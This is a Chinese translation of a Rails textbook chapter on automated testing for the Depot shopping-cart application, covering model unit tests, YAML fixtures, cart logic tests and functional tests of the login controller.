-   更改原始的商品目录显示（`store` 控制器中的 `index` 动作），使其在客户端请求 XML 响应时返回 XML 商品目录。
-   尝试使用 rxml 模板生成普通的 HTML（严格来说是 XHTML）响应。其优缺点是什么？
-   如果你喜欢以编程方式生成 HTML 响应，可以看看 Markaby。² 它是作为一个插件安装的，所以你将尝试一些我们还没有讨论过的东西，但网站上的说明很清楚。
-   向 Depot 应用程序添加信用卡和 PayPal 处理、履行、优惠券、RSS 支持、用户账户、内容管理等功能。将最终的应用程序卖给一家知名网络公司。提前退休，并做善事。

(你会在 [http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime](http://wiki.pragprog.com/cgi-bin/wiki.cgi/RailsPlayTime) 找到提示)

2. [http://redhanded.hobix.com/inspect/markabyForRails.html](http://redhanded.hobix.com/inspect/markabyForRails.html)


# 第13章

## 任务T：测试

在短时间内，我们已经开发了一个像样的基于Web的购物车应用程序。在这个过程中，我们通过编写少量代码然后在Web浏览器中点击按钮（客户在旁边）来获得快速反馈，查看应用程序是否按预期运行。这种测试策略在你开发Rails应用程序的最初一小时左右是有效的，但很快之后，你积累了足够的功能，手动测试就不再适用了。每次你不得不点击所有按钮时，你的手指会变累，头脑会变得麻木，所以你并不经常测试，甚至可能根本不测试。

然后有一天，你做了一个小改动，破坏了一些功能，但直到客户打电话来说她不再满意时你才意识到这一点。如果这还不够糟糕，那么你花了几个小时才搞清楚到底出了什么问题。你在这里做了一个无心的改动，但那里却出了问题。等你解开这个谜团时，客户已经找到了新的最佳程序员了。

事情本不必如此。有一个实用的替代方案来应对这种疯狂：编写测试！

在本章中，我们将为我们所熟知和喜爱的应用程序——Depot应用程序——编写自动化测试。¹ 理想情况下，我们会增量地编写这些测试，以便在过程中获得小小的信心提升。因此，我们称此为任务T，因为我们应该一直在进行测试。你可以从第670页开始找到本章的代码清单。

¹ 我们将测试Depot的标准原版。如果你进行了修改（也许是尝试了章节末尾的一些练习题），你可能需要进行调整。

### 13.1 内置测试

在构建Depot时，我们一直在进行快速而随意的编码，很容易让人以为Rails将测试视为事后才考虑的事情。事实并非如此。Rails框架的真正乐趣之一是它从每个项目一开始就内置了测试支持。事实上，从你使用`rails`命令创建新应用程序的那一刻起，Rails就开始为你生成测试基础设施。

我们还没有为Depot应用程序编写任何测试代码，但如果你查看该项目的顶层目录，你会注意到一个名为`test`的子目录。在这个目录内，你会看到五个目录和一个辅助文件。

```
depot> ls -p test
fixtures/      integration/      test_helper.rb
functional/    mocks/            unit/
```

所以我们的第一个决定——在哪里放置测试——已经为我们做好了。`rails`命令创建了完整的`test`目录结构。

按照惯例，Rails将测试模型的东西称为*单元测试*，测试控制器中单个操作的东西称为*功能测试*，测试通过一个或多个控制器的流程的东西称为*集成测试*。让我们看看单元测试和功能测试子目录中已经有什么。

```
depot> ls test/unit
order_test.rb     line_item_test.rb     product_test.rb     user_test.rb

depot> ls test/functional
admin_controller_test.rb     login_controller_test.rb
info_controller_test.rb     store_controller_test.rb
```

看哪！Rails已经创建了文件来保存模型的单元测试和我们之前用`generate`脚本创建的控制器的功能测试。这是一个好的开始，但Rails只能在一定程度上帮助我们。它为我们指明了正确的方向，让我们专注于编写好的测试。我们将从数据所在的地方开始，然后向上移动到更接近用户所在的地方。

### 13.2 模型的单元测试

我们早在第68页为Depot应用程序创建的第一个模型是`Product`。让我们看看当我们生成该模型时，Rails在`test/unit/product_test.rb`文件中生成了什么样的测试内容。

```
require File.dirname(__FILE__) + '/../test_helper'

class ProductTest < Test::Unit::TestCase
  fixtures :products

  def test_truth
    assert true
  end
end
```

好的，我们的第二个决定——如何编写测试——已经为我们做好了。`ProductTest`是`Test::Unit::TestCase`类的子类这一事实告诉我们，Rails基于预装在Ruby中的Test::Unit框架生成测试。这是一个好消息，因为这意味着如果我们已经用Test::Unit测试过我们的Ruby程序（你为什么不想呢？），那么我们可以基于这些知识来测试Rails应用程序。如果你是Test::Unit的新手，别担心。我们会慢慢来。

现在，测试用例中生成的代码是什么意思？Rails为我们生成了两样东西。第一样是下面这行代码。

```
fixtures :products
```

这行代码背后有很多魔力——它允许我们用合适的测试数据预先填充我们的数据库——我们稍后会深入讨论它。

第二样是Rails生成的方法`test_truth`。如果你熟悉Test::Unit，你就会对这个方法了如指掌。它的名称以`test`开头意味着它将被测试框架作为测试运行。而里面的`assert`行是实际的测试。虽然这个测试并不太有意义——它只是测试`true`是否为真。显然，这是一个占位符，但它很重要，因为它让我们看到所有的测试基础设施都已就绪。那么，让我们试着运行这个测试类。

```
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
EE
Finished in 0.559942 seconds.

1) Error:
test_truth(ProductTest):
MysqlError: Unknown database 'depot_test'
... a whole bunch of tracing...
1 tests, 0 assertions, 0 failures, 2 errors
```

看来这不是事实。测试没有只是失败，它爆炸了！谢天谢地，它给了我们一个线索——它找不到名为`depot_test`的数据库。嗯。

#### 专门用于测试的数据库

还记得第69页我们创建Depot应用程序的开发数据库吗？我们称它为`depot_development`。这是因为这是Rails在config目录中的`database.yml`文件中给它的默认名称。如果你再次查看该配置文件，你会注意到Rails实际上为三个独立的数据库创建了配置。

- `depot_development`将是我们的开发数据库。我们所有的编程工作都将在这里完成。
- `depot_test`是一个测试数据库。
- `depot_production`是生产数据库。当我们上线时，我们的应用程序将使用这个数据库。

到目前为止，我们所有的开发工作都在开发数据库中进行。不过，现在我们要运行测试，Rails需要使用测试数据库，而我们还没有创建一个。

现在让我们来解决这个问题。由于我们使用的是MySQL数据库，我们将再次使用mysqladmin来创建数据库。

```
depot> mysqladmin -u root create depot_test
```

现在让我们再次运行测试。

```
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
EE
Finished in 0.06429 seconds.

1) Error:
test_truth(ProductTest):
ActiveRecord::StatementInvalid: MysqlError:
Table 'depot_test.products' doesn't exist: DELETE FROM products
1 tests, 0 assertions, 0 failures, 2 errors
```

哦，天哪！比上次好不了多少。但错误不同了。现在它抱怨我们的测试数据库中没有`products`表。确实没有：目前我们只有一个空的模式。让我们填充测试数据库模式，使其与开发数据库的模式匹配。我们将使用`db:test:prepare`任务来复制模式。

```
depot> rake db:test:prepare
```

现在我们有了一个包含模式的数据库。让我们再试一次我们的单元测试。

```
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
.
Finished in 0.085795 seconds.

1 tests, 1 assertions, 0 failures, 0 errors
```

好的，看起来好多了。看到拥有存根测试并非毫无意义了吗？它让我们把测试环境都设置好了。现在环境准备好了，让我们开始进行一些真正的测试吧。

本章由Mike Clark (http://clarkware.com) 撰写。Mike是一位独立顾问、作家和培训师。最重要的是，他是一名程序员。他帮助团队使用敏捷实践更快地构建更好的软件。他拥有丰富的J2EE和测试驱动开发背景，目前正将他的经验应用于Rails项目。


##### 一个真正的单元测试

自 Rails 最初生成 Product 模型以来，我们已经为其添加了相当多的代码。其中一些代码用于处理验证。

```ruby
# depot_r/app/models/product.rb

validates_presence_of :title, :description, :image_url
validates_numericality_of :price
validates_uniqueness_of :title
validates_format_of :image_url,
                :with    => %r{\.(gif|jpg|png)$}i,
                :message => "must be a URL for a GIF, JPG, or PNG image"

protected

def validate
    errors.add(:price, "should be at least 0.01") if price.nil? || price < 0.01
end
```

我们如何知道这个验证正在工作？让我们来测试它。首先，如果我们创建一个没有任何属性的产品，我们期望它是无效的，并且每个字段都有关联的错误。我们可以使用模型的 `valid?` 方法来查看它是否通过验证，并且可以使用错误列表的 `invalid?` 方法来查看某个特定属性是否有错误。

现在我们知道要测试什么了，我们需要知道如何告诉测试框架我们的代码是通过还是失败。我们使用断言来做到这一点。断言只是一个方法调用，它告诉框架我们期望什么是真的。最简单的断言是 `assert` 方法，它期望其参数为真。如果是这样，什么特殊的事情都不会发生。然而，如果 `assert` 的参数为假，断言就会失败。框架将输出一条消息，并停止执行包含失败的测试方法。在我们的案例中，我们期望一个空的 Product 模型不会通过验证，所以我们可以通过断言它无效来表达这个期望。

```ruby
assert !product.valid?
```

让我们编写完整的测试。

```ruby
# depot_r/test/unit/product_test.rb

def test_invalid_with_empty_attributes
  product = Product.new
  assert !product.valid?
  assert product.errors.invalid?(:title)
  assert product.errors.invalid?(:description)
  assert product.errors.invalid?(:price)
  assert product.errors.invalid?(:image_url)
end
```

当我们运行测试用例时，我们现在会看到两个测试被执行（原始的 `test_truth` 方法和我们的新测试方法）。

```
depot> ruby test/unit/product_test.rb
Loaded suite test/unit/product_test
Started
..
Finished in 0.092314 seconds.
2 tests, 6 assertions, 0 failures, 0 errors
```

果然，验证生效了，我们所有的断言都通过了。

显然，此时我们可以深入挖掘并单独测试各个验证。让我们看看众多可能测试中的三个。首先，我们将检查价格的验证是否按我们期望的方式工作。

```ruby
# depot_r/test/unit/product_test.rb

def test_positive_price
  product = Product.new(:title       => "My Book Title",
                       :description => "yyy",
                       :image_url   => "zzz.jpg")

  product.price = -1
  assert !product.valid?
  assert_equal "should be at least 0.01", product.errors.on(:price)

  product.price = 0
  assert !product.valid?
  assert_equal "should be at least 0.01", product.errors.on(:price)

  product.price = 1
  assert product.valid?
end
```

在这段代码中，我们创建一个新的产品，然后尝试将其价格设置为 -1、0 和 +1，并在每次设置后验证产品。如果我们的模型工作正常，前两个应该是无效的，并且我们验证与价格属性关联的错误消息是我们期望的。最后一个价格是可接受的，所以我们断言该模型现在是有效的。（有些人会将这三个测试放入三个单独的测试方法中——这是完全合理的。）

接下来，我们将测试验证图像 URL 是否以 .gif、.jpg 或 .png 结尾。

```ruby
# depot_r/test/unit/product_test.rb

def test_image_url
  ok = %w{ fred.gif fred.jpg fred.png FRED.JPG FRED.jpg
            http://a.b.c/x/y/z/fred.gif }
  bad = %w{ fred.doc fred.gif/more fred.gif.more }

  ok.each do |name|
    product = Product.new(:title       => "My Book Title",
                         :description => "yyy",
                         :price       => 1,
                         :image_url   => name)
    assert product.valid?, product.errors.full_messages
  end

  bad.each do |name|
    product = Product.new(:title => "My Book Title", :description => "yyy", :price => 1,
                        :image_url => name)
    assert !product.valid?, "saving #{name}"
  end
end
```

在这里，我们稍微调整了一下。我们没有写出九个单独的测试，而是使用了几个循环，一个用于检查我们期望通过验证的情况，第二个用于尝试我们期望失败的情况。您会注意到，我们还向 `assert` 方法调用添加了一个额外的参数。所有测试断言都接受一个可选的尾随参数，其中包含一个字符串。如果断言失败，该字符串将与错误消息一起写入，这对于诊断问题所在非常有用。

最后，我们的模型包含一个验证，用于检查数据库中所有产品标题是否唯一。要测试这一点，我们需要将产品数据存储在数据库中。

一种方法是让测试创建一个产品，保存它，然后创建另一个具有相同标题的产品，并尝试也保存它。这显然可行。但有一种更惯用的方式——我们可以使用 Rails *fixtures*。

##### 测试夹具

在测试领域，*fixture* 是一个可以运行测试的环境。例如，如果您要测试电路板，您可能会将其安装在测试夹具中，该夹具为其提供运行待测试功能所需的电源和输入。

在 Rails 领域中，测试夹具只是被测试模型（或模型）初始内容的规范。例如，如果我们希望确保我们的 products 表在每个单元测试开始时具有一些已知的数据，我们可以在夹具中指定这些内容，Rails 将负责其余部分。

您在 `test/fixtures` 目录的文件中指定夹具数据。这些文件包含逗号分隔值（CSV）或 YAML 格式的测试数据。对于我们的测试，我们将使用首选的 YAML 格式。每个 YAML 夹具文件包含单个模型的数据。夹具文件的名称很重要；文件的基本名称必须与数据库表的名称匹配。因为我们需要一些 Product 模型的数据，而该模型存储在 `products` 表中，所以我们将把它添加到名为 `products.yml` 的文件中。Rails 在我们最初创建模型时已经创建了这个夹具文件。

```yaml
# Read about fixtures at ...
first:
    id: 1
another:
    id: 2
```

夹具文件包含我们想要插入数据库的每一行的条目。每一行都被赋予一个名称。在 Rails 生成的夹具中，行被命名为 *first* 和 *another*。就数据库而言，这个名称没有意义——它不会插入到行数据中。相反，正如我们稍后将看到的，该名称为我们提供了一种方便的方式来在测试代码中引用测试数据。

在每个条目内部，您将看到一个缩进的属性名/值对列表。在 Rails 生成的夹具中，只设置了 `id` 属性。虽然打印时并不明显，但您必须在数据行的开头使用空格，而不是制表符，并且一行的所有行必须具有相同的缩进。最后，您需要确保每个条目中的列名是正确的：与数据库列名不匹配可能会导致难以跟踪的异常。

让我们用一些我们可以用来测试产品模型的内容替换夹具文件中的虚拟数据。我们从一本书开始。

```yaml
# depot_r/test/fixtures/products.yml

ruby_book:
  id:          1
  title:       Programming Ruby
  description: Dummy description
  price:       1234
  image_url:   ruby.png
```

现在我们有了一个夹具文件，我们希望 Rails 在我们运行单元测试时将测试数据加载到 `products` 表中。事实上，由于 `ProductTest` 中的以下行，Rails 已经在这样做了。

```ruby
# depot_r/test/unit/product_test.rb

fixtures :products
```

`fixtures` 指令确保与给定模型名称对应的夹具数据在测试用例中的每个测试方法运行之前加载到对应的数据库表中。按照约定，使用表的名称，这意味着使用 `:products` 将导致使用 `products.yml` 夹具文件。

让我们用另一种方式再说一遍。就我们的 `ProductTest` 类而言，添加 `fixtures` 指令意味着 `products` 表将被清空，然后在每个测试方法运行之前填充 Ruby 书籍的单行数据。每个测试方法在测试数据库中获得一个新初始化的表。

##### 使用夹具数据

现在我们知道如何将夹具数据加载到数据库中，我们需要找到在测试中使用它的方法。


##### David 的建议...

###### 为测试夹具选择好的名称

就像变量的通用命名规则一样，你也希望让测试夹具的名称尽可能具有自解释性。这样可以提高测试的可读性，例如当你断言 `product(:valid_order_for_fred)` 确实是 Fred 的有效订单时。同时，这也能让你更容易记住应该使用哪个夹具进行测试，而无需再去查找 `p1` 或 `order4` 这样的名称。随着夹具数量的增加，选择好的夹具名称就变得越发重要。因此，从一开始就养成这个好习惯，日后会轻松许多。

但是，对于那些难以获得像 `valid_order_for_fred` 这样自解释性名称的夹具该怎么办呢？选择那些更容易让你联想到特定角色的自然名称。例如，使用 `christmas_order` 而不是 `order1`；使用 `fred` 而不是 `customer1`。一旦你习惯了这种自然的命名方式，你很快就能编织出一个生动的小故事，比如 Fred 先用他的 `invalid_credit_card` 为他的 `christmas_order` 付款，然后用他的 `valid_credit_card` 支付，最后选择将所有东西寄送给 `aunt_mary`。

基于联想的故事是轻松记住大量夹具的关键。

显然，一种方法是使用模型中的查找方法来读取数据。然而，Rails 使得这个过程更为简单。对于加载到测试中的每个夹具，Rails 会定义一个与该夹具同名的方法。你可以使用这个方法来访问包含夹具数据的预加载模型对象：只需传入在 YAML 夹具文件中定义的行名，它就会返回一个包含该行数据的模型对象。以我们的产品数据为例，调用 `products(:ruby_book)` 会返回一个包含我们在夹具中定义的数据的 `Product` 模型。让我们用这个来测试产品标题的唯一性验证。

```
Download depot_r/test/unit/product_test.rb

def test_unique_title
  product = Product.new(:title        => products(:ruby_book).title,
                       :description  => "yyy",
                       :price        => 1,
                       :image_url    => "fred.gif")

  assert !product.save
  assert_equal "has already been taken", product.errors.on(:title)
end
```

这个测试假设数据库中已经包含了一条 Ruby 书的记录。

它使用以下方式获取现有记录的标题：

```
products(:ruby_book).title
```

然后创建一个新的 `Product` 模型，将其标题设置为那个现有的标题。它断言尝试保存这个模型会失败，并且 `title` 属性关联了正确的错误信息。

如果你想避免对 Active Record 错误使用硬编码的字符串，可以将响应与其内置的错误消息表进行比较。

```
Download depot_r/test/unit/product_test.rb
def test_unique_title1
  product = Product.new(:title => products(:ruby_book).title,
                       :description => "yyy",
                       :price => 1,
                       :image_url => "fred.gif")

  assert !product.save
  assert_equal ActiveRecord::Errors.default_error_messages[:taken],
               product.errors.on(:title)
end
```

（要查找这些内置错误消息的列表，请在 Active Record gem 中寻找 `validations.rb` 文件。图 13.1（下一页）包含了编写本章时的错误列表，但当你阅读时，它很可能已经发生变化。）

##### 测试购物车

我们的 `Cart` 类包含一些业务逻辑。当我们向购物车添加一个商品时，它会检查该商品是否已在购物车的商品列表中。如果是，它就增加该商品的数量；如果不是，它就为该商品添加一个新的条目。让我们为这个功能编写一些测试。

`Rails generate` 命令创建了用于存放我们应用程序中数据库支持模型的单元测试的源文件。但是购物车呢？我们是手动创建了 `Cart` 类，并且在单元测试目录中没有与之对应的文件。别担心！我们只需创建一个。我们将从另一个测试文件中复制样板代码到一个新的 `cart_test.rb` 文件中（记得将类名重命名为 `CartTest`）。

```
Download depot_r/test/unit/cart_test.rb
require File.dirname(__FILE__) + '/../test_helper'

class CartTest < Test::Unit::TestCase
  fixtures :products
end
```

###### 图 13.1：标准 Active Record 验证消息

```
@default_error_messages = {
  :inclusion    => "is not included in the list",
  :exclusion    => "is reserved",
  :invalid      => "is invalid",
  :confirmation => "doesn't match confirmation",
  :accepted     => "must be accepted",
  :empty        => "can't be empty",
  :blank        => "can't be blank",
  :too_long     => "is too long (maximum is %d characters)",
  :too_short    => "is too short (minimum is %d characters)",
  :wrong_length => "is the wrong length (should be %d characters)",
  :taken        => "has already been taken",
  :not_a_number => "is not a number"
}
```

注意，我们已经将现有的 products 夹具包含到了这个测试中。这是常见的做法：我们经常希望在多个测试用例之间共享测试数据。在这种情况下，购物车测试将需要访问产品数据，因为我们要向购物车中添加产品。

由于我们需要测试将不同产品添加到购物车，因此需要在 products.yml 夹具中至少再添加一个产品。完整的文件现在看起来像这样。

```
Download depot_r/test/fixtures/products.yml

ruby_book:
  id:           1
  title:        Programming Ruby
  description:  Dummy description
  price:        1234
  image_url:    ruby.png

rails_book:
  id:           2
  title:        Agile Web Development with Rails
  description:  Dummy description
  price:        2345
  image_url:    rails.png
```

让我们先看看向购物车中添加一本 Ruby 书和一本 Rails 书会发生什么。我们期望最终得到一个包含两个商品的购物车。购物车中商品的总价应该是 Ruby 书的价格加上 Rails 书的价格。代码在下一页。

```
Download depot_r/test/unit/cart_test.rb
def test_add_unique_products
  cart = Cart.new
  rails_book = products(:rails_book)
  ruby_book  = products(:ruby_book)
  cart.add_product rails_book
  cart.add_product ruby_book
  assert_equal 2, cart.items.size
  assert_equal rails_book.price + ruby_book.price, cart.total_price
end
```

我们来运行这个测试。

```
depot> ruby test/unit/cart_test.rb
Loaded suite test/unit/cart_test
Started
.
Finished in 0.12138 seconds.

1 tests, 2 assertions, 0 failures, 0 errors
```

到目前为止一切顺利。让我们编写第二个测试，这次向购物车中添加两本 Rails 书。现在我们应该看到购物车中只有一个商品，但数量为 2。

```
Download depot_r/test/unit/cart_test.rb
def test_add_duplicate_product
  cart = Cart.new
  rails_book = products(:rails_book)
  cart.add_product rails_book
  cart.add_product rails_book
  assert_equal 2*rails_book.price, cart.total_price
  assert_equal 1, cart.items.size
  assert_equal 2, cart.items[0].quantity
end
```

我们开始看到这些测试中出现了一点重复。两者都创建了一个新的购物车，并且都设置了局部变量作为夹具数据的快捷方式。幸运的是，Ruby 单元测试框架为我们提供了一种便捷的方式来为每个测试方法设置公共环境。如果你在测试用例中添加一个名为 setup 的方法，它将在每个测试方法之前运行——setup 方法为每个测试设置环境。因此，我们可以用它来设置一些供测试使用的实例变量。

```
Download depot_r/test/unit/cart_test1.rb
require File.dirname(__FILE__) + '/../test_helper'

class CartTest < Test::Unit::TestCase

  fixtures :products

  def setup
    @cart  = Cart.new
    @rails = products(:rails_book)
    @ruby = products(:ruby_book)
  end

  def test_add_unique_products
    @cart.add_product @rails
    @cart.add_product @ruby
    assert_equal 2, @cart.items.size
    assert_equal @rails.price + @ruby.price, @cart.total_price
  end

  def test_add_duplicate_product
    @cart.add_product @rails
    @cart.add_product @rails
    assert_equal 2 * @rails.price, @cart.total_price
    assert_equal 1, @cart.items.size
    assert_equal 2, @cart.items[0].quantity
  end
end
```

这种设置对于这个特定的测试有用吗？可以说都有道理。但是，正如我们将在功能测试中看到的，setup 方法在保持测试一致性方面可以发挥关键作用。

##### 单元测试支持

在编写单元测试时，你最终可能会使用以下列表中的大部分断言方法。

```
assert(boolean,message)
  如果 boolean 为 false 或 nil，则测试失败。
  assert(User.find_by_name("dave"), "user 'dave' is missing")

assert_equal(expected,actual,message)
assert_not_equal(expected,actual,message)
  除非 expected 和 actual 相等/不相等，否则测试失败。
  assert_equal(3, Product.count)
  assert_not_equal(0, User.count, "no users in database")

assert_nil(object,message)
assert_not_nil(object,message)
  除非 object 是/不是 nil，否则测试失败。
  assert_nil(User.find_by_name("willard"))
  assert_not_nil(User.find_by_name("henry"))

assert_in_delta(expected_float, actual_float, delta,message)
  除非两个浮点数在 delta 范围内，否则测试失败。
  优于 assert_equal，因为浮点数不精确。
  assert_in_delta(1.33, line_item.discount, 0.005)
```

`assert_raise(Exception, ..., message) { block... }`
`assert_nothing_raised(Exception, ..., message) { block... }`
    除非代码块引发/未引发列出的异常之一，否则测试失败。
    `assert_raise(ActiveRecord::RecordNotFound) { Product.find(bad_id) }`

`assert_match(pattern, string, message)`
`assert_no_match(pattern, string, message)`
    除非字符串被 `pattern` 中的正则表达式匹配/未匹配，否则测试失败。如果 `pattern` 是一个字符串，则按字面意义解释——不处理正则表达式元字符。
    `assert_match(/flower/i, user.town)`
    `assert_match("bang*flash", user.company_name)`

`assert_valid(activerecord_object)`
    除非提供的 Active Record 对象有效（即通过了验证），否则测试失败。如果验证失败，错误信息将作为断言失败消息的一部分被报告。
    user = Account.new(:name => "dave", :email => 'secret@pragprog.com')
    `assert_valid(user)`

`flunk(message)`
    无条件失败。
    unless user.valid? || account.valid?
      flunk("One of user or account should be valid")
    end

Ruby 的单元测试框架提供了更多断言，但在测试 Rails 应用时这些断言使用得不太频繁，因此我们在这里不作讨论。你可以在 Test::Unit 的文档中找到它们。² 此外，Rails 提供了对应用程序路由进行测试的支持。我们将在第 423 页开始介绍。

### 13.3 控制器的功能测试

控制器掌控全局。它们接收传入的 Web 请求（通常是用户输入），与模型交互以获取应用程序状态，然后通过触发适当的视图向用户显示某些内容作为响应。因此，当我们测试控制器时，我们是在确保给定的请求得到了适当的响应。我们仍然需要模型，但单元测试已经覆盖了它们。

Rails 将测试单个控制器的内容称为 *功能测试*。Depot 应用程序有四个控制器，每个控制器都有多个 action。这里有很多我们可以测试的内容，但我们将逐步介绍一些要点。让我们从用户开始的地方——登录开始。

² 例如，在 http://ruby-doc.org/stdlib/libdoc/test/unit/rdoc/classes/Test/Unit/Assertions.html

##### 登录

如果任何人都能随意管理 Depot 应用，那可不好。虽然我们可能没有一个复杂的安全系统，但我们希望至少确保登录控制器能将闲杂人等拒之门外。

因为 `LoginController` 是通过 generate controller 脚本创建的，Rails 已经在 `test/functional` 目录中为我们准备了一个测试桩。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'login_controller'

# Re-raise errors caught by the controller.
class LoginController; def rescue_action(e) raise e end; end

class LoginControllerTest < Test::Unit::TestCase
  def setup
    @controller = LoginController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  # Replace this with your real tests.
  def test_truth
    assert true
  end
end
```

功能测试的关键在于 `setup` 方法。它初始化每个功能测试所需的三个实例变量。

-   `@controller` 包含被测试控制器的一个实例。
-   `@request` 包含一个请求对象。在正在运行的、真实的 Web 应用程序中，请求对象包含来自传入请求的所有详细信息和数据。它包含 HTTP 头信息、POST 或 GET 数据等。在测试环境中，我们使用请求对象的一个特殊测试版本，它可以在没有真实、传入 HTTP 请求的情况下进行初始化。
-   `@response` 包含一个响应对象。虽然在我们编写应用程序的过程中没有直接看到响应对象，但我们一直在使用它们。每次我们向浏览器发送请求时，Rails 都会在后台填充一个响应对象。模板将其数据渲染到响应对象中，我们希望返回的状态码被记录在响应对象中，等等。当我们的应用程序完成请求处理后，Rails 会获取响应对象中的信息，并使用它来向客户端发送响应。

请求和响应对象对于我们的功能测试至关重要——使用它们意味着我们不必启动真实的 Web 服务器来运行控制器测试。也就是说，功能测试不一定需要 Web 服务器、网络或客户端。

##### 索引：仅限管理员

很好，现在让我们编写第一个控制器测试——一个简单地“访问”索引页面的测试。

```ruby
def test_index
  get :index
  assert_response :success
end
```

`get` 方法是一个由测试辅助加载的便捷方法，它模拟了一个 Web 请求（可以理解为 HTTP GET）到 LoginController 的 index action，并捕获响应。`assert_response` 方法随后检查响应是否成功。

好的，让我们看看运行测试时会发生什么。我们将使用 `-n` 选项来指定我们想要运行的特定测试方法的名称。

```
depot> ruby test/functional/login_controller_test.rb -n test_index
Loaded suite test/functional/login_controller_test
Started
F
Finished in 0.239281 seconds.

1) Failure:
test_index(LoginControllerTest) [test/functional/login_controller_test.rb:23]:
Expected response to be a <:success>, but was <302>
```

这看起来很简单，那么发生了什么？302 响应代码意味着请求被重定向了，因此不被视为成功。但为什么会被重定向？嗯，因为这就是我们设计 LoginController 的方式。它使用一个 `before_filter` 来拦截对那些需要管理员登录才能使用的 action 的调用。

```ruby
before_filter :authorize, :except => :login
```

`before_filter` 确保在 index action 运行之前，`authorize` 方法会先被运行。

```ruby
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end
end
```

由于我们尚未登录，会话中没有有效的用户，因此请求被重定向到 login action。根据 `authorize` 方法，结果页面应该包含一个 flash 提示，告诉我们需要登录。好的，让我们重写功能测试来捕获这个流程。

```ruby
def test_index_without_user
  get :index
  assert_redirected_to :action => "login"
  assert_equal "Please log in", flash[:notice]
end
```

这一次，当我们请求 index action 时，我们预期会被重定向到 login action，并看到由视图生成的 flash 提示。

```
depot> ruby test/functional/login_controller_test.rb
Loaded suite test/functional/login_controller_test
Started
.
Finished in 0.0604571 seconds.
1 tests, 3 assertions, 0 failures, 0 errors
```

确实，我们得到了预期的结果。³ 现在我们知道，在用户登录之前，管理员专用的操作是无法访问的（`before_filter` 正在生效）。让我们尝试在拥有有效用户的情况下查看索引页面。

回想一下，应用程序将当前登录用户的 id 存储在 session 中，以 `:user_id` 为键。因此，为了模拟一个已登录的用户，我们只需要在发出 index 请求之前在 session 中设置一个用户 id。我们现在唯一的问题是知道用什么作为用户 id。

我们不能随便放一个随机数进去，因为应用程序控制器的 `authorize` 方法会根据这个值从数据库中获取用户行。看起来我们需要用一些有效的数据来填充 users 表。而这给了我们一个了解动态固件的机会。

##### 动态固件

我们将创建一个 `users.yml` 测试固件，向 users 表中添加一行。我们将这个用户称为 "dave"。

³ 有一个小的例外。我们的测试方法包含两个断言，但控制台日志显示通过了三个断言。这是因为 `assert_redirected_to` 方法在内部使用了两个底层断言。


dave:
  id:     1
  name:   dave
  salt:   NaCl
  hashed_password: ???

一切顺利，直到 `hashed_password` 这一行。我们应该用什么值呢？在真实的数据表中，它是使用用户类中的 `encrypted_password` 方法计算出来的。该方法接受一个明文密码和一个盐值，并创建一个 SHA1 哈希值。

现在，一种方法是启动 `script/console` 并手动调用该方法。然后，我们可以复制该方法返回的值，粘贴到 fixture 文件中。这方法可行，但有点晦涩，而且如果我们改变了密码生成机制，测试可能会中断。如果在加载数据到数据库时，我们能使用应用程序的代码来生成哈希密码，那不是很好吗？那么，请看下面的例子。

```
<% SALT = "NaCl" unless defined?(SALT) %>

dave:
  id:     1
  name:   dave
  salt:   <%= SALT %>
  hashed_password:   <%= User.encrypted_password('secret', SALT) %>
```

`hashed_password` 这行的语法应该很眼熟：`<%=...%>` 指令和我们用于在模板中替换值的指令是一样的。事实证明，Rails 在测试 fixture 中支持这种替换。这就是我们称它们为动态 fixture 的原因。

现在我们准备再次测试 index 动作。我们必须记得在 login 控制器测试类中添加 `fixtures` 指令。

`fixtures :users`

然后，我们编写测试方法。

```
def test_index_with_user
  get :index, {}, { :user_id => users(:dave).id }
  assert_response :success
  assert_template "index"
end
```

这里的关键概念是对 `get` 方法的调用。请注意，我们在动作名称之后添加了几个新参数。第二个参数是一个空哈希——这代表传递给动作的 HTTP 参数。第三个参数是一个哈希，用于填充会话数据。这就是我们使用用户 fixture 的地方，将会话条目 `:user_id` 设置为我们的测试用户的 ID。我们的测试随后断言我们得到了一个成功的响应（不是重定向），并且该动作渲染了 index 模板。（我们很快会更深入地研究所有这些断言。）

##### 登录

现在我们已经在测试数据库中有一个用户了，让我们看看是否可以以该用户身份登录。如果我们使用的是浏览器，我们会导航到登录表单，输入我们的用户名和密码，然后将字段提交给登录控制器的登录动作。我们期望被重定向到索引列表，并且会话中包含我们测试用户的 ID。下面是在功能测试中实现这一点的方法。

```
def test_login
  dave = users(:dave)
  post :login, :name => dave.name, :password => 'secret'
  assert_redirected_to :action => "index"
  assert_equal dave.id, session[:user_id]
end
```

这里我们使用了一个 `post` 方法来模拟输入表单数据，并将用户名和密码表单字段值作为参数传递。

如果我们尝试使用无效密码登录会怎样？

```
def test_bad_password
  dave = users(:dave)
  post :login, :name => dave.name, :password => 'wrong'
  assert_template "login"
  assert_equal "Invalid user/password combination", flash[:notice]
end
```

正如预期的那样，测试用户没有被重定向到索引列表，而是看到了登录表单，并带有一条 flash 消息，鼓励他们再试一次。

##### 功能测试的便利性

以上是对如何为控制器编写功能测试的快速介绍。在此过程中，我们使用了许多 Rails 内置的支持方法和断言，它们使你的测试工作更加轻松。在继续深入之前，让我们先看看一些针对控制器测试的 Rails 特有便利功能。

###### HTTP 请求方法

方法 `get`、`post`、`put`、`delete` 和 `head` 用于模拟同名的传入 HTTP 请求方法。它们调用给定的动作，并将响应提供给测试代码使用。

这些方法中的每一个都接受相同的四个参数。让我们以 `get` 为例来看看。

```
get(action, parameters = nil, session = nil, flash = nil)
```

对给定的动作执行一个 HTTP GET 请求。返回时，`@response` 对象将被设置。参数如下：

-   `action`：被请求的控制器动作。
-   `parameters`：一个可选的请求参数哈希。
-   `session`：一个可选的会话变量哈希。
-   `flash`：一个可选的 flash 消息哈希。

示例：

```
get :index
get :add_to_cart, :id => products(:ruby_book).id
get :add_to_cart, { :id => products(:ruby_book).id },
    { :session_key => 'session_value'}, { :message => "Success!" }
```

